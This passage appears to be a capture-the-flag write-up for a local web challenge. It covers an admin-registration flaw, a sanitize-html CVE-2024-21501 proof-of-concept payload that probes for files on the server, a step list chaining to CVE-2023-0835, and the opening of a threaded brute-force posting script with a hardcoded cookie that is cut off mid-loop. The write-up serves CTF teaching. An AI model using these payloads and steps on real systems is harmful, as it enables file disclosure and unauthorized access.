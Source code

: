 So, what do we need to do to reach this route? It requires two things: ```isAdmin``` and a valid ```ACCESS_PASS``` to be able to post content. Upon closer inspection, we can see that the project doesn’t initialize any database in the source code → meaning the database is empty by default. Then, looking at the ```/register``` route → it doesn’t validate whether we’re registering with the username ```admin``` or not → this means we can meet the ```isAdmin``` condition simply by registering with the username admin.

Next, we need to understand the logic of the ```verifyPass()```function → as mentioned earlier, this function checks whether the provided pass is valid based on the existence of the file named ```ACCESS_PASS```. Also take note that in ```package.json```, the ```sanitize-html``` package is vulnerable to **CVE-2024-21501**, which allows:

```js
// index.js
const sanitizeHtml = require('sanitize-html');

const file_exist = `<a style='background-image: url("/*# sourceMappingURL=./node_modules/sanitize-html/index.js */");'>@slonser_</a>`;
const file_notexist = `<a style='background-image: url("/*# sourceMappingURL=./node_modules/randomlibrary/index.js */");'>@slonser_</a>`;

const file_exist_clean = sanitizeHtml(file_exist, {
allowedAttributes: { ...sanitizeHtml.defaults.allowedAttributes, a: ['style'] },
})

const file_notexist_clean = sanitizeHtml(file_notexist, {
    allowedAttributes: { ...sanitizeHtml.defaults.allowedAttributes, a: ['style'] },
})
console.log(file_exist_clean, "// valid file path on backend")
console.log(file_notexist_clean, "// invalid file path on backend")
```

This gives us a working PoC:

1. Register a user with the username ```admin```, then log in with this account.
2. Exploit **CVE-2024-21501** on the ```/document``` endpoint.
3. Check which filename is the actual ```ACCESS_PASS```
4. Once you obtain both the correct ```ACCESS_PASS``` and ```isAdmin```, exploit **CVE-2023-0835** on ```/document/debug/export```.
5.  Get the flag


This is script for auto posting documents:

```python
import requests
from threading import Thread, Lock
import math
import re

BASE_URL = "http://localhost:1337"
USER_COOKIE = "eyJ1c2VybmFtZSI6ImFkbWluIiwiaWQiOjF9-37aff27db740bf84dbf62a3ee676f4d9ce172c9c83a7095baca58c0a25620953"

START = 0
END = 10000
NUM_THREADS = 12
ALL_IDS = {f"{i:04d}" for i in range(10000)}
found_ids = set()
lock = Lock()

def post_documents(start, end):
    session = requests.Session()
    session.cookies.set("user", USER_COOKIE)
    for i in range(start, end):
        padded = f"{i:04}"
        print(f"[Thread {start}-{end}] Posting document {padded}")
```